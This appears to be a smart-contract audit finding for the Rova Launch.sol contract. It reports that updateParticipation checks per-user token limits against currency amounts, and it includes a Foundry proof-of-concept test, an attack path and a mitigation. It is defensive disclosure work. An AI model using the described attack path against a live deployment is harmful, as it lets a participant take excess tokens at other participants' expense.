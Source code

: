 Loud Flint Leopard

Medium

# Incorrect Token Limits Checks in `updateParticipation` Allows Excess Tokens and, Disallow Legit Participation Update

### Summary

The incorrect calculation in `updateParticipation` leads to improper token allocation, allowing a user to receive more tokens than intended. The function incorrectly enforces minimum and maximum limits using `currencyAmount` instead of `tokenAmount`, enabling a participant to bypass these restrictions.

### Root Cause

In `updateParticipation`, the following lines incorrectly enforce the minimum and maximum token limits:

[Launch.sol:361](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L355)
```solidity
if (userTokenAmount - refundCurrencyAmount < settings.minTokenAmountPerUser)
```

and
[Launch.sol:361](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L368)
```solidity
if (userTokenAmount + additionalCurrencyAmount > settings.maxTokenAmountPerUser) {
```

These checks use `currencyAmount` rather than `tokenAmount`, leading to incorrect validation and allowing excessive tokens to be allocated.


### Internal Pre-conditions

1. The user must have an active participation in a launch group.
2. The launch group must allow `updateParticipation`.
3. The `settings.minTokenAmountPerUser` and `settings.maxTokenAmountPerUser` values must be set.

### External Pre-conditions

1. The exchange rate of the token must allow significant discrepancies between `currencyAmount` and `tokenAmount`.
2. The backend must sign an `updateParticipation` request with an incorrectly calculated token amount.

### Attack Path

1. A user participates in a launch with a certain amount of currency.
2. The user calls `updateParticipation` with a request that increases their allocation.
3. Due to the incorrect limit checks, the function allows an allocation beyond the maximum limit.
4. The user receives more tokens than intended, effectively exploiting the miscalculated validation.

### Impact

The launch protocol suffers from incorrect token distribution, allowing users to receive excessive tokens. This can lead to:

- Excess token issuance, disrupting the expected allocation model.
- Potential financial losses for legitimate participants due to imbalance in distribution.
- Incorrectly blocks users based on wrong checks

### PoC

```solidity
// SPDX-License-Identifier:
pragma solidity ^0.8.22;

import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {
    LaunchGroupSettings,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo,
    CurrencyConfig
} from "../src/Types.sol";

contract LaunchUpdateParticipationLimitTest is Test, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public originalParticipationRequest;

    function setUp() public {
        _setUpLaunch();
        settings = _setupLaunchGroup();
        originalParticipationRequest = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(originalParticipationRequest));

        CurrencyConfig memory currencyConfig =
        CurrencyConfig({tokenPriceBps: .5e18, isEnabled: true});
        vm.prank(manager);
        launch.setLaunchGroupCurrency(testLaunchGroupId,  address(currency), currencyConfig);


        vm.startPrank(user1);
        currency.approve(
            address(launch),
            type(uint256).max
        );
        launch.participate(originalParticipationRequest, signature);
        vm.stopPrank();
    }

    function test_UpdateParticipation_LimitBypass() public {
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(4000);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        launch.updateParticipation(updateRequest, updateSignature);
        vm.stopPrank();

        // Verify user received more tokens than max limit
        ParticipationInfo memory info = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        assert(info.tokenAmount > settings.maxTokenAmountPerUser);
    }

    function _createUpdateParticipationRequest(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

}
```

### Mitigation

Ensure the correct variable (`tokenAmount`) is used when checking minimum and maximum limits:

```solidity
if (newTokenAmount < settings.minTokenAmountPerUser)
```

and

```solidity
if (newTokenAmount > settings.maxTokenAmountPerUser) {
```

This ensures proper enforcement of participation limits, preventing excess allocation of tokens.

